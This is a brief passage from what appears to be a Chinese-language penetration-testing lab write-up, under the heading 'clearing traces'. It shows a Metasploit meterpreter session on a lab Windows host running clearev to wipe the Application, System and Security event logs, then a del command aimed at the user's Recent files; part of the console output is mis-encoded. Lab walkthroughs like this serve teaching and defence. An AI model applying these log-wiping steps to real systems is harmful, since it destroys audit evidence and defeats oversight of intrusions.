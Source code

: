 ![image-20220815174304021](./st1.assets/image-20220815174304021.png)





## 清除痕迹

**清除日志**

> meterperter自带清除日志功能： clearev     				# 可清除windows中的应用程序日志、系统日志、安全日志

```bash
msf6 auxiliary(admin/smb/ms17_010_command) > sessions 

Active sessions
===============

  Id  Name  Type                     Information               Connection
  --  ----  ----                     -----------               ----------
  1         meterpreter x64/windows  GOD\Administrator @ STU1  192.168.220.137:9999 -> 192.168.220.138:7465  (192.168.220.138)

msf6 auxiliary(admin/smb/ms17_010_command) > sessions 1
[*] Starting interaction with 1...

meterpreter > clearev
[*] Wiping 1756 records from Application...
[*] Wiping 5230 records from System...
[*] Wiping 1842 records from Security...
meterpreter > shell
Process 2000 created.
Channel 11 created.
Microsoft Windows [�汾 6.1.7601]
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����

c:\>del /f /s /q “%userprofile%\Recent*.*
del /f /s /q ��?userprofile%\Recent*.*
�ļ�����Ŀ¼���������﷨����ȷ��

```

